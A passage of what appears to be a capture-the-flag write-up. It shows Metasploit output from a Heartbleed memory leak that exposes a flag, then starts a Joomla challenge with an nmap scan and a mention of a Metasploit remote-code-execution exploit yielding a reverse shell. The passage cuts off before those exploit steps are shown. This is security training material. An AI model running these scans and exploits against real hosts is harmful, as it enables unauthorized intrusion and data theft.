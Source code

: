 ```text
[*] 34.28.96.103:443      - 			Certificate #1: #<OpenSSL::X509::Certificate: subject=#<OpenSSL::X509::Name CN=172.16.12.31,OU=NetSec,O=AAU,C=DK>, issuer=#<OpenSSL::X509::Name CN=172.16.12.31,OU=NetSec,O=AAU,C=DK>, serial=#<OpenSSL::BN:0x00007fea60fd11a8>, not_before=2021-02-25 11:34:48 UTC, not_after=2031-02-23 11:34:48 UTC>
[*] 34.28.96.103:443      - SSL record #3:
[*] 34.28.96.103:443      - 	Type:    22
[*] 34.28.96.103:443      - 	Version: 0x0301
[*] 34.28.96.103:443      - 	Length:  331
[*] 34.28.96.103:443      - 	Handshake #1:
[*] 34.28.96.103:443      - 		Length: 327
[*] 34.28.96.103:443      - 		Type:   Server Key Exchange (12)
[*] 34.28.96.103:443      - SSL record #4:
[*] 34.28.96.103:443      - 	Type:    22
[*] 34.28.96.103:443      - 	Version: 0x0301
[*] 34.28.96.103:443      - 	Length:  4
[*] 34.28.96.103:443      - 	Handshake #1:
[*] 34.28.96.103:443      - 		Length: 0
[*] 34.28.96.103:443      - 		Type:   Server Hello Done (14)
[*] 34.28.96.103:443      - Sending Heartbeat...
[*] 34.28.96.103:443      - Heartbeat response, 65535 bytes
[+] 34.28.96.103:443      - Heartbeat response with leak, 65535 bytes
[*] 34.28.96.103:443      - Printable info leaked:
...HKN{1JM-fuD-Ywxn}.... (more info here)
```

## Unauthenticated access

**Challenge Description**: Some content management systems (e.g Wordpress,Joomla,Shopify,Blogger) are vulnerable to different kind of attacks, in this exercise, you will deal with a CMS which is vulnerable!

### Challenge Solution

First we need to identify the system in question. Using nmap to scan for services and operating systems: `nmap -O -sV IP_ADDR/24`. This resulted in one interesting service (due to the challenge description): 

```text
Nmap scan report for 34.28.96.48
Host is up (0.00026s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian) PHP/5.6.12)
MAC Address: 02:42:22:1C:60:30 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

This host is running a Joomla blog. It looks like it has not been setup properly, so trying default credentials was the first guess. This did not prove successfull. If the version of the Joomla system being used could be found out, it might be easier looking for vulnerabilities. Searching for joomla in metasploit results in a lot of different exploits. Using a remote code execution vulnerability vulnerability in Joomla, it was possible to get a reverseshell in meterpreter set up:
